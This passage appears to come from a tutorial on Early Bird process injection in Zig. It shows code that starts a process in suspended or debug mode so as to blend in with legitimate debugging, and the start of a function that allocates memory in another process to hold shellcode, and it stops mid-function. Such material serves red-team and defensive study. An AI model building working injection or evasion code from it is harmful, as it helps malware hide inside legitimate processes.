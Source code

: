 - Clean and straightforward approach
- Process is truly suspended until resumed
- No debugging overhead
- Uses `ResumeThread` to continue execution

### Using DEBUG_PROCESS Flag

```zig
const DEBUG_PROCESS = 0x00000001;

// Create process in debug mode
if (CreateProcessA(
    null,
    @constCast(formatted.ptr),
    null,
    null,
    0,
    DEBUG_PROCESS,  // Process starts in debug mode
    null,
    null,
    &Si,
    &Pi,
) == 0) {
    // Handle error
}
```

- Process appears to be debugging session
- Can blend in with legitimate debugging activity
- Uses `DebugActiveProcessStop` to detach and continue

## Cross-Process Memory Injection

Early Bird injection requires writing shellcode into the target process's memory space using cross-process memory manipulation APIs:

### Memory Allocation

```zig
fn injectShellcodeToRemoteProcess(
    hProcess: windows.HANDLE,
    pShellcode: []const u8,
    ppAddress: *?*anyopaque,
) bool {
    // Allocate memory in target process
    ppAddress.* = VirtualAllocEx(
        hProcess,
        null,
        pShellcode.len,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE,
    );

    if (ppAddress.* == null) {
        print("\n\t[!] VirtualAllocEx Failed With Error : {d} \n", .{windows.kernel32.GetLastError()});
        return false;
    }
```
